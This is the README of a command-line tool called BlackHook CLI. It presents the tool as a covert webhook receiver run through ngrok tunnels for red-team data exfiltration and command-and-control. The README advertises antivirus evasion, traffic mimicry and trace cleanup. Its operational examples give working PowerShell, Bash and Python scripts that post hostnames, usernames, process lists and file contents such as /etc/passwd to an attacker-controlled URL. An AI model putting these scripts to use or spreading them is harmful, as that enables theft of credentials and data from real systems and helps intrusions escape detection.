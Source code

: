 # BlackHook CLI

A covert command-line tool for establishing secure data exfiltration channels and webhook endpoints during penetration testing and red team operations.

![Security](https://img.shields.io/badge/security-research-red.svg)
![Python](https://img.shields.io/badge/python-3.7+-blue.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)
![Stealth](https://img.shields.io/badge/stealth-high-darkgreen.svg)

## 🎯 Overview

BlackHook-CLI is similar to webhook.site but in the form of cli and can be run locally to carry out a variety of data exfiltration attacks

# Images Side by Side

| UI Screenshot | Requests View |
|:-------------:|:-------------:|
| <img src="images/ui.svg" alt="UI Screenshot" width="600"/> | <img src="images/requests.svg" alt="Requests View" width="600"/> |


## 🔥 Key Advantages

- 🥷 **AV Evasion**: Bypasses common antivirus detection through legitimate HTTP traffic patterns
- 🌐 **Dynamic Endpoints**: Creates ephemeral ngrok tunnels that don't appear in security feeds
- 🔒 **No External Dependencies**: Self-hosted solution avoiding third-party webhook services
- 📊 **Real-time Monitoring**: Live TUI for immediate data visibility during operations
- 🧹 **Clean Footprint**: Minimal system traces and easy cleanup
- 🎭 **Traffic Mimicry**: Requests appear as legitimate web traffic
- 💾 **Flexible Exfiltration**: Supports multiple data formats and encoding schemes

## 🚀 Tactical Use Cases

- **Data Exfiltration**: Extract sensitive files and credentials via HTTP POST
- **Command & Control**: Establish covert communication channels
- **Payload Delivery Confirmation**: Verify successful payload execution
- **Persistence Validation**: Test beacon callbacks and heartbeat mechanisms


## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/blackhook-cli.git
cd blackhook-cli

# Install dependencies
pip install -r requirements.txt

# Make executable
chmod +x blackhook_cli.py
```

## ⚡ Quick Deployment

### 1. Establish Covert Channel
```bash
python blackhook_cli.py start --port 8080
```
- Automatically generates ephemeral ngrok URL
- Launches real-time monitoring interface
- Ready for data reception immediately

### 2. Configure Target Payload
Use the generated URL in your payload scripts:
```bash
# Example exfiltration endpoint
https://abc123.ngrok.io/exfil
```

### 3. Monitor Incoming Data
Watch data arrive in real-time through the interactive TUI with full request details, headers, and payload content.

## 🎯 Operational Examples

### Data Exfiltration Scripts

**PowerShell (Windows)**
```powershell
# Exfiltrate system information
$data = @{
    hostname = $env:COMPUTERNAME
    user = $env:USERNAME
    domain = $env:USERDOMAIN
    processes = Get-Process | Select-Object Name | ConvertTo-Json
}
Invoke-RestMethod -Uri "https://your-ngrok-url.ngrok.io/sysinfo" -Method POST -Body ($data | ConvertTo-Json) -ContentType "application/json"
```

**Bash (Linux)**
```bash
#!/bin/bash
# Covert file exfiltration
curl -X POST https://your-ngrok-url.ngrok.io/files \
  -H "Content-Type: application/json" \
  -d "{\"filename\":\"$(basename $1)\",\"content\":\"$(base64 -w 0 $1)\"}"
```

**Python (Cross-platform)**
```python
import requests
import base64
import os

def exfiltrate_file(filepath, endpoint):
    with open(filepath, 'rb') as f:
        content = base64.b64encode(f.read()).decode()
    
    data = {
        'filename': os.path.basename(filepath),
        'size': os.path.getsize(filepath),
        'content': content
    }
    
    requests.post(f"{endpoint}/upload", json=data)

# Usage
exfiltrate_file("/etc/passwd", "https://your-ngrok-url.ngrok.io")
```

## 🔧 Operational Commands

| Command | Purpose | OPSEC Level |
|---------|---------|-------------|
| `start` | Deploy covert endpoint | 🟢 High |
| `status` | Check operational status | 🟢 High |
| `requests` | Review captured intelligence | 🟢 High |
| `show <id>` | Analyze specific payload | 🟢 High |
| `export` | Extract operation data | 🟡 Medium |
| `kill` | Terminate and cleanup | 🟢 High |
| `clear` | Purge operation traces | 🟢 High |

## 🎮 TUI Operational Controls

| Key | Function | Description |
|-----|----------|-------------|
| `↑↓` | Navigate | Browse captured payloads |
| `Enter` | Inspect | Deep dive into payload details |
| `c` | Clean | Emergency data wipe |
| `e` | Extract | Quick data export |
| `k` | Kill | Terminate operations |
| `q` | Quit | Exit interface |

## 🤝 Contributing

Security researchers and penetration testers are welcome to contribute:

---
#### Inspired from Webhook.site
